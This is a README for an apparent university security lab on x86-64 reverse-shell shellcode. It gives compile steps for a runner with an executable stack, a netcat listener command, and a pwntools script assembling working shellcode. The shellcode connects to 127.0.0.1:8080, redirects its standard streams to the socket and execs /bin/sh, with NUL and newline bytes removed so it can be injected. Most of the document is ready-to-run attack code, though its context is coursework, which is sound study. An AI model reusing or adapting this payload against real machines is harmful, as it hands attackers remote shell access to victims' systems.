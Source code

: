 # Reverse Shell x86-64

UMass Amherst 2022 Spring CS390R Lab 2

- [Lab Exercise Instruction](Lab%202.pdf)
- [Solution Article](https://silviavali.github.io/blog/2019-01-25-blog-SLAE2/)

### Special characters eliminated

I improve the shellcode such
that `0x00(NUL), 0x0a(LF), 0x0b(VT), 0x0d(CR), 0xff(EOF)` are eliminated.

## Reverse Shell

![](reverse_shell.png)

1. Compile [`shellcode_runner.c`](shellcode_runner.c), which read the shellcode
   from stdin and execute it.

```bash
gcc shellcode_runner.c -z execstack -o shellcode_runner -g
```

2. Listen from local port

```bash
nc -nvlp 8080
```

3. Spawn reverse shell on target machine

```bash
python3 reverse_shell.py
```

## Environments

- x86-64 Linux (VM recommended)
- `python3` environment
  with [`pwntools`](https://github.com/Gallopsled/pwntools)
  installed
- `tmux` if the script is running within an ssh session

## Debug

![](debug.png)

Set `DEBUG = True` to debug the assembly with `gdb`.

## Shellcode

```python
from pwn import *

context.clear(arch='amd64')

# hs//nib/ 0x68732f2f6e69622f
# 127.0.0.1,8080,2 0x0100007f901f0002
#     mov dword ptr [rsp-4], 0x0100007f
#     mov word ptr [rsp-6], 0x901f
#     mov word ptr [rsp-8], 0x2
#     sub rsp, 8
shellcode = asm("""
    xor rax, rax
    mov rdi, rax
    mov dil, 2
    xor rsi, rsi
    mov sil, 1
    xor rdx, rdx
    mov al, 41
    syscall
    mov rdi, rax
    xor rax, rax

    push rax
    xor rbx, rbx
    mov bx, 0x901f
    shl rbx, 0x10
    add rbx, 2
    push rbx

    mov rsi, rsp
    xor rdx, rdx
    mov dl, 16
    xor rax, rax
    mov al, 42
    syscall

    mov rsi, rax
    mov al, 33
    syscall

    inc sil
    mov al, 33
    syscall

    inc sil
    mov al, 33
    syscall

    xor rbx, rbx
    push rbx
    mov rbx, 0x68732f2f6e69622f
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    xor rax, rax
    mov al, 59
    syscall
""")
```

